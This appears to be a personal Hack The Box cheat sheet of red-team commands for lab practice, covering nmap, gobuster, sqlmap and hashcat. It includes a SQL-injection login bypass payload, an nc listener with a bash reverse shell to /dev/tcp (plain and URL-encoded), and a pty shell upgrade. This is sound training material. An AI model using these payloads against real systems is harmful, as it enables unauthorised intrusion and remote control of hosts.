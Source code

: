 # Hack the box

To lazy to create another repo for even more notes...

This document will focus on writing down command to play with for when doing red team work.
Something something only use for good.

## Setup

Follow the settings in hack the back page.
Download the package file and start the openvpn.

```shell
sudo openvpn my.ovpn
```

## nmap

```shell
sudo nmap -sC -sV -oA nmap/example 192.168.0.1
# -sC = default script
# -sV = Probe open ports and versions
# -oA = output
```

## gobuster

```shell
# kali linux
gobuster dir -u http://192.168.0.1 -w /opt/SecLists/Discovery/web-Content/raft-small-words.txt -x php -o gobuster.out

# arch
gobuster dir -u http://10.129.20.199 -w /usr/share/seclists/Discovery/Web-Content/raft-small-words.txt -x js, html -o gobuster.out

```

## Burp

Can do a bunch of things :)

## Sqlmap

Sql injection [tool](https://sqlmap.org/) written in python.
Save the output of your request from burp and give it to sqlmap.
Have sqlmap try a number of injects for you.

```shell
sqlmap -r login.req --batch
```

### So basic sql injection

```.php
username=admin'#&password=a
# Web encode '# and forward to the host. In this case the php site will take think the sql query ends.
# So they query only checks for username admin and if it exists thats okay. The password query isn't forwarded.
username=admin%27%23&password=a
```

## remote exec

### nc or ncat

Setup and listen for incoming traffic from remote exec on your local host.

```shell
nc -lvnp 9001
```

On the remote host that you want to forward your session to.
Lets assume that your local host got the ip 10.10.0.1.

```shell
bash -c 'bash -i >& /dev/tcp/10.10.0.1/9001'
# Might need to web encode the request or something similar
bash%20-c%20%27bash%20-i%20%3E%26%20%2Fdev%2Ftcp%2F10.10.0.1%2F9001%27
```

## fuzzing

```shell
# FUZZ is the targeted value in this case that should be changed by the fuzzer
wfuzz -u http://10.10.0.1/accounts.php -H <your content type> -d 'username=something&password=12345&FUZZ=12345' -w /path/to/burp-parameter-names.txt
```

## Python

### Start bash from python

And give your self a decent working environment.

```shell
python3 -c ' import pty;pty.spawn("/bin/bash")'
# put it in background
stty raw -echo; fg
export TERM=xterm
```

## Hashcat

Password recovery utility, used together with a word list.

```shell
hashcat file-containing-password /path/to/wordlist
```

## web tools

wappalyzer = a tool that scans homepages as a extensions and gives you information what technologies it uses.
For example php, js etc.

## install

```shell
pacman -S nmap
yay -S gobuster
yay -S sqlmap
yay -S seclists
```

[burp](https://portswigger.net/burp/releases/professional-community-2022-2-3)

Just like when installing zap burp needs to be installed as root.
